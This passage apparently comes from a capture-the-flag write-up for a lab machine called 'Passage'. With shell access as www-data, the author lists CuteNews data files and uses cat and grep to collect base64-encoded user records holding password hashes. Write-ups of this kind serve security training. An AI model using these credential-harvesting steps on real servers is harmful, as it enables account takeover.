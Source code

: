 ```shell
www-data@passage:/var/www/html/CuteNews/cdata$ ls
Default.tpl    auto_archive.db.php  cache            comments.txt  confirmations.php  flood.txt       ipban.db.php  news.txt    postponed_news.txt  rss_config.php       users
Headlines.tpl  backup               cat.num.php      conf.php      csrf.php           idnews.db.php   log           newsid.txt  replaces.php        template             users.db.php
archives       btree                category.db.php  config.php    flood.db.php       installed.mark  news          plugins     rss.tpl             unapproved_news.txt  users.txt
www-data@passage:/var/www/html/CuteNews/cdata$ cat users.db.php
<?php die("You don't have access to open this file!"); ?>
www-data@passage:/var/www/html/CuteNews/cdata$ cat users.txt
qc4fs7:1
qc4fxg:2
qc4fyp:3
qc4fzh:3
qfwgzt:4
qfy7jk:4
qppjyv:4
qppl2w:4
```

### Fetching Password Hashes

Inside `/cdata/users` directory we find multiple php files containing base64 encoded data:

```shell
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat lines
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo2OiJlZ3JlNTUiO319
[..SNIP..]
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat 07.php
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTg6IkQzSVJSdFc0WWRAaGFjay5tZSI7czoxMDoiRDNJUlJ0VzRZZCI7fX0=
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat 0a.php
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
```

Instead of going through each file, we'll make use of `grep` and some bash functions to sort out this data:

```shell
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat * | grep -v 'php die'
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo2OiJlZ3JlNTUiO319
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo1OiJhZG1pbiI7YTo4OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMDQ3IjtzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MzoiYWNsIjtzOjE6IjEiO3M6NToiZW1haWwiO3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjQ6InBhc3MiO3M6NjQ6IjcxNDRhOGI1MzFjMjdhNjBiNTFkODFhZTE2YmUzYTgxY2VmNzIyZTExYjQzYTI2ZmRlMGNhOTdmOWUxNDg1ZTEiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3OTg4IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzI4MTtzOjk6InNpZC1tZWllciI7fX0=
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjU6ImFkbWluIjt9fQ==
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImtpbUBleGFtcGxlLmNvbSI7czo5OiJraW0tc3dpZnQiO319
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzIzNjtzOjEwOiJwYXVsLWNvbGVzIjt9fQ==
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJzaWQtbWVpZXIiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzI4MSI7czo0OiJuYW1lIjtzOjk6InNpZC1tZWllciI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToic2lkQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiU2lkIE1laWVyIjtzOjQ6InBhc3MiO3M6NjQ6
[..SNIP..]
```

